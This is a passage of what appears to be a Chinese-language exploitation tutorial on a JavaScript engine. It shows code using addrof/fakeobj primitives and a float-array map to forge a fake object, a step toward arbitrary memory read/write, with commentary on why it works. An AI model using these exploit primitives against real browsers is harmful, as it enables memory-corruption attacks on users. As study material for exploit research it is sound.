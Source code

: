 ```
```


于是可以写一个函数测试
只有这个数组是全局变量时，上面才是数据区


```js
var arb_rw_arr1 = [flt_map, 1.2, itof(BigInt(addrof(temp_obj)) - 0x10n), 1.4];
console.log("fflt_array" + addrof(arb_rw_arr1).toString(16));

function test() {
	// var arb_rw_arr1 = [flt_map, 1.2, itof(BigInt(addrof(temp_obj)) - 0x10n), 1.4];
	// 如果在里面就不行了，可以自己试一下
    console.log("flt_array " + addrof(flt_array).toString(16));
    console.log("flt_map " + addrof(flt_map).toString(16));
    console.log("temp_obj " + addrof(temp_obj).toString(16));
    console.log("fflt_array[0] addr" + addrof(arb_rw_arr1[0]).toString(16));
    console.log("fflt_array[0] var" + ftoi(arb_rw_arr1[0]).toString(16));

  
    var fake = fakeobj(addrof(arb_rw_arr1) - 0x20n);
    console.log("fake" + addrof(fake).toString(16));
    console.log("fake[0] addr " + addrof(fake[0]).toString(16));
    console.log("fake[0]" + ftoi(fake[0]));
}
```


简化一下，`itof(BigInt(addrof(temp_obj)) - 0x10n)`本质是为了精准输出
为了理解原理可以随便输出一个

```js
var arb_rw_arr1 = [flt_map, 1.2, itof(addrof(temp_obj)), 1.4];
//这里必须做转换，不然数据保存的是000000
console.log("fflt_array" + addrof(arb_rw_arr1).toString(16));
console.log("temp_obj " + addrof(temp_obj).toString(16));

function test() {
    console.log("flt_map " + addrof(flt_map).toString(16));
    console.log("fflt_array[0] addr" + addrof(arb_rw_arr1[0]).toString(16));
    console.log("fflt_array[0] var" + ftoi(arb_rw_arr1[0]).toString(16));

    var fake = fakeobj(addrof(arb_rw_arr1) - 0x20n);
    console.log("fake " + addrof(fake).toString(16));
    console.log("fake[0]" + ftoi(fake[0]));
}
```

如果不转浮点数的报错：

